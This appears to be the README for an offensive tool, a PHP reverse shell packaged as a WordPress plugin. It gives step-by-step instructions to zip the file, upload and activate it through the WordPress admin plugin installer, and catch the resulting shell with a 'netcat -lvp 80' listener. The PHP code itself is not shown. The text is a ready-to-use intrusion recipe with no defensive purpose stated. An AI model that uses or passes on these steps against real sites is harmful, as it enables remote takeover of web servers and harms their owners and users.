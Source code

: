 # wordpress_plugin_reverse_shell.php
1.) Zip up php file.
2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.
3.) netcat -lvp 80
